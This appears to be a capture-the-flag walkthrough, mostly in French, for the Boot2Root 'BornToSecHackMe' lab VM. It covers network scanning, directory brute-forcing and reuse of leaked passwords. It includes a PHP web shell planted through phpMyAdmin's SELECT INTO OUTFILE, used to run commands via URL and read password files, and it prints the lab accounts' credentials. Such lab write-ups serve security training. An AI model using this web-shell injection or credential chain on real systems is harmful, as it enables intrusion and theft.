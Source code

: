  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/setup.png)




Enter: ifconfig

-----------------
Install nmap via brew
-----------------

ifconfig should display a range of IP for the vm between 1 and 255

execute:
nmap <IP>.1-255

--> This should give back the precise IP and the open ports.
80 should be open and accessible Through a web browser
It is a Wordpress

--------------------


Avec nmap on recupere les ports, il y a un http et un https sur l'adresse IP 192.168.99.100

On recupere un script appelle DIRB qui a partir d'un dictionnaire teste la presence d'elements dans l'arboressence.
https://sourceforge.net/projects/dirb/i


En testant ./dirb https://192.168.99.100/ wordlists/common.txt -w

on se rend compte qu'il y a :
un forum auquel on peut acceder par navigateur
un webmail https://192.168.99.100/webmail/src/login.php
un phpmyadmin


Il y a un lien qui liste les users https://192.168.99.100/forum/index.php?mode=user

lmezard a un seul poste dans : "Probleme login ?"

dans probleme login il y a une entree etrange --> Failed password for invalid user !q\]Ej?*5K5cy*AJ from
On vois quil existe un user "root"
il y a aussi un "Oct 5 14:54:29 BornToSecHackMe sudo: admin : TTY=pts/0 ; PWD=/home/admin ; USER=root ; COMMAND=/bin/sh" ?

Si on essaie !q\]Ej?*5K5cy*AJ en password pour lmezard ca passe.
on peut recuperer son mail --> laurie@borntosec.net

On va le tenter dans le webmail avec le meme password et ca passe ouuuuuh!!!!

IL Y A UN MESSAGE DB ACCESS !!!

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
Bouyaaa !!!

il y a aussi les mails de
ft_root@mail.borntosec.net
qudevide@mail.borntosec.net

En magouillant un peu sur le login de phpmyadmin
login: root
pass: Fg-'kKXBj87E:aJ$

CA PASSE

On suis ce tuto :http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2

Ils nous donnent:
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/cmd.php”;

Cela permet d'inserer un shell basique qui prend des commandes via url, mais il faut trouver ou le placer

Vue que c'est un site web il sera en  /var/www/html/

en tentant les differents sous dossiers de dossier de forum (obtenus via DIRB)
on arrive finalement a placer dans template_c

SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";

A partir de la on peux lancer des commandes via le navigateur, notament ls pour comprendre l'arborecense

https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home

https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password
Montre un dossier LOOKATME avec dedans un Login/Password :
lmezard:G!@M6f4Eatau{sF"

en se connectant en ftp on peut entrer ce password et acceder a un README : "Complete this little challenge and use the result as password for user 'laurie' to login in ssh"

et a un fichier fun

Ce fichier fun contiens des instructions:




Password SSH de Laurie

laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

